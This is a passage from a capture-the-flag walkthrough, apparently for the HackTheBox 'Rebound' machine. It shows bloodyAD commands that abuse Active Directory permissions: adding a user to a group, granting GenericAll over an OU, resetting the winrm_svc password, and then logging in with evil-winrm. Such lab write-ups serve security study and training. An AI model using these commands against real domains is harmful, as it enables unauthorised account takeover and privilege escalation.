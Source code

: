 Based on Bloodhound, we need to be part of the `ServiceMgmt` group to have `GenericAll` privileges over `winrm_svc`, and we can use that to change the password of the user.&#x20;

I tried the exploit with `ldap_monitor`, but it doesn't work with it. We can only use `oorend` to exploit this misconfiguration. Searching for tools to exploit this led to `bloodyAD.py`:

{% embed url="https://github.com/CravateRouge/bloodyAD" %}

I tried adding the `oorend` user to the `ServiceMgmt` group, and it surprisingly worked.&#x20;

```
$ bloodyAD.py -u oorend -p <PASS> -d rebound.htb --host 10.129.68.225 add groupMember SERVICEMGMT oorend
[+] oorend added to SERVICEMGMT
```

From here, what we can do is attempt to give `oorend` `GenericAll` privilege over the OU for Service Users, and from there set the password of the `winrm_svc` user to something else:

{% code overflow="wrap" %}
```
$ python bloodyAD.py -d rebound.htb -u oorend -p <PASS> --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
$ python bloodyAD.py -d rebound.htb -u oorend -p <PASS> --host dc01.rebound.htb set password winrm_svc 'Pa$$w0rd'
```
{% endcode %}

Afterwards, we can `evil-winrm` in as the user:

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

I should note that because the box resets the passwords of `winrm_svc` user regularly, the `evil-winrm` shell dies pretty often.&#x20;

### Enumeration

Earlier in Bloodhound, we saw that the `tbrady` user has `ReadGMSAPassword` over the `gmsa.rebound.htb` domain, so they are probably the next step.&#x20;
